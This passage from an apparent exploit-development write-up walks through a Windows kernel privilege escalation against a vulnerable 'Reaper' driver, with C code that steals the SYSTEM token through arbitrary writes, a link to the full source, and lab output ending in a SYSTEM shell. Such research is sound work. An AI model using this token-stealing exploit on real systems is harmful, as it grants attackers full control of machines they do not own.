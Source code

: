 ```c
    return processAddress + TOKEN_OFFSET;
}
```

This code is self explanatory. It enumerates processes until it finds one with a `UniqueProcessId` that matches the one returned from `GetCurrentProcessId`. One the process is found the address of the `_EX_FAST_REF` (Token offset) is returned.

## Putting it Together

The main code pieces all of this together in to a privilege escalation exploit:

```c
// get the kernel base address
QWORD kernelBase = GetKernelBase();

// get the system token address
QWORD systemTokenAddress = GetSystemTokenAddress(kernelBase, hDevice);

// get the current process address
QWORD currentTokenAddress = GetCurrentTokenAddress(systemTokenAddress - TOKEN_OFFSET, hDevice);

QWORD systemTokenDereferenced;
ArbitraryWrite(hDevice, (QWORD)systemTokenAddress, (QWORD)&systemTokenDereferenced);

// do the system token write
ArbitraryWrite(hDevice, (QWORD)&systemTokenDereferenced, (QWORD)currentTokenAddress);

// spawn a new command prompt
system("cmd.exe");
```

The complete privilege escalation code can be found at the following link:

[Plackyhacker]: https://github.com/plackyhacker/misc-scripts/blob/main/awe-prep/reaper-priv-esc.c	"Reaper Driver Priv Esc Code"

# Testing the Exploit

I tested the exploit code on my local lab:

```
Reaper Priv Esc Driver Exploit
------------------------------
[+] Driver handle: 0x00000000000000A0
[+] Kernel base address: 0xFFFFF8041F000000
[+] SYSTEM _EPROCESS address: 0xFFFFD10C45860040
[+] SYSTEM token address: 0xFFFFD10C458604F8
[+] Current _EPROCESS address: 0xFFFFD10C4E846080
[+] Current token address: 0xFFFFD10C4E846538
[+] System token dereferenced: 0xFFFF9F87D989C72E
[+] Copying SYSTEM token...
[+] Spawning new process...

Microsoft Windows [Version 10.0.19045.4529]
(c) Microsoft Corporation. All rights reserved.

C:\Users\John\source\repos\ReaperPrivEsc\ReaperPrivEsc>whoami
nt authority\system
```


[RP++]: https://github.com/0vercl0k/rp	"A fast ROP gadget finder"
[Notepad++]: https://notepad-plus-plus.org/downloads/	"Downloads"
[Vergilius Project]: https://www.vergiliusproject.com/kernels/x64/windows-10/22h2	"22H2 (2022 Update, Vibranium R5)"